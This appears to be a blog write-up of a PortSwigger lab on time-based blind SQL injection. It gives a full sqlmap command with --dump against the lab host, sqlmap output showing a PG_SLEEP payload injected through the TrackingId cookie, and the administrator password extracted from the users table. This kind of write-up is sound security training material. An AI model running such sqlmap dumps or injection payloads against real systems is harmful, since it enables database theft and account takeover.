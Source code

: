 ```yaml
---
author: Nithissh S
pubDatetime: 2024-09-10T15:22:00Z
modDatetime: 2024-09-10T09:12:47.400Z
title: Blind SQL injection with time delays and information retrieval
slug: sqli-portswigger-lab-14
featured: false
draft: false
tags:
  - BSCP
  - SQL Injection
description:
  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.   
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

Assume that let's continue with the previous lab where we found a time based SQL injection and now in the sqlmap we can add the following argument `--dump` which will actually dumps the database with the following command 

```sh
sqlmap -u "https://0ab200aa049122c1847d9bdf00600046.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --dbms="PostgreSQL" --level 2 --threads 5 --dump
```

After sometime, here we found that the `TrackingId` parameter inside cookie is vulnerable to SQL injection 

```sh
[11:29:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:29:17] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:29:18] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[11:29:19] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[11:29:30] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[11:29:40] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[11:29:50] [INFO] checking if the injection point on Cookie parameter 'TrackingId' is a false positive
Cookie parameter 'TrackingId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 588 HTTP(s) requests:
---
Parameter: TrackingId (Cookie)
    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 4567=(SELECT 4567 FROM PG_SLEEP(5))-- AWZm; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
```

Finally, After two long hours it worked and got the admin password

```sh
[12:11:49] [INFO] fetching tables for database: 'public'
[12:11:49] [INFO] fetching number of tables for database 'public'
[12:11:49] [INFO] retrieved: 2
[12:12:04] [INFO] retrieving the length of query output
[12:12:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        
8
[12:12:57] [INFO] retrieved: ___c____ 1/8 (12%)
[12:12:57] [ERROR] invalid character detected. retrying..
[12:13:26] [INFO] retrieved: tracking           
[12:13:26] [INFO] retrieving the length of query output
[12:13:26] [INFO] retrieved: 5
[12:14:06] [INFO] retrieved: users           
[12:14:06] [INFO] fetching columns for table 'users' in database 'public'
[12:14:06] [INFO] retrieved: 3
[12:14:26] [INFO] retrieving the length of query output
[12:14:26] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        
5
[12:15:10] [INFO] retrieved: __a__ 1/5 (20%)
[12:15:20] [ERROR] invalid character detected. retrying..
[12:15:20] [INFO] retrieved: _ma__ 2/5 (40%)
[12:15:20] [ERROR] invalid character detected. retrying..
[12:15:34] [INFO] retrieved: ema_l 4/5 (80%)
[12:15:39] [ERROR] invalid character detected. retrying..
[12:15:53] [INFO] retrieved: email           
[12:15:53] [INFO] retrieving the length of query output
[12:15:53] [INFO] retrieved: 8
[12:16:27] [INFO] retrieved: _a______ 1/8 (12%)
[12:16:37] [ERROR] invalid character detected. retrying..
[12:17:01] [INFO] retrieved: password           
[12:17:01] [INFO] retrieving the length of query output
[12:17:01] [INFO] retrieved: 8
[12:17:45] [INFO] retrieved: _se_____ 2/8 (25%)
[12:17:45] [ERROR] invalid character detected. retrying..
[12:17:48] [INFO] retrieved: _se__a__ 3/8 (37%)
[12:17:50] [ERROR] invalid character detected. retrying..
[12:17:50] [ERROR] invalid character detected. retrying..
[12:17:59] [ERROR] invalid character detected. retrying..
[12:18:17] [INFO] retrieved: username           
[12:18:17] [INFO] fetching entries for table 'users' in database 'public'
[12:18:17] [INFO] fetching number of entries for table 'users' in database 'public'
[12:18:17] [INFO] retrieved: 3
[12:18:37] [INFO] retrieving the length of query output
[12:18:37] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        

[12:19:00] [INFO] retrieved:  
[12:19:36] [INFO] retrieving the length of query output
[12:19:36] [INFO] retrieved: 20
[12:20:23] [INFO] retrieved: 9___1_______________ 2/20 (10%)
[12:20:24] [ERROR] invalid character detected. retrying..
[12:20:28] [INFO] retrieved: 9d__1_______________ 3/20 (15%)
[12:20:28] [ERROR] invalid character detected. retrying..
[12:21:33] [INFO] retrieved: 9daf1re9zls_r_______ 12/20 (60%)
[12:21:34] [ERROR] invalid character detected. retrying..
[12:22:22] [INFO] retrieved: 9daf1re9zls_rzycg_q_ 17/20 (85%)
[12:22:31] [ERROR] invalid character detected. retrying..
[12:22:45] [INFO] retrieved: 9daf1re9zlsxrzycg6q2             
[12:22:45] [INFO] retrieving the length of query output
[12:22:45] [INFO] retrieved: 1
[12:23:11] [ERROR] invalid character detected. retrying..
3
[12:23:49] [INFO] retrieved: a__i_________ 2/13 (15%)
[12:23:50] [ERROR] invalid character detected. retrying..
[12:24:28] [INFO] retrieved: administra__r 11/13 (84%)
[12:24:28] [ERROR] invalid character detected. retrying..
[12:24:52] [INFO] retrieved: administrator  
```

Now login with those creds which is username is `administrator` and password is `9daf1re9zlsxrzycg6q2` on successful login.. Lab will be solved 

![](../../assets/images/bscp/sqli/sqli53.png)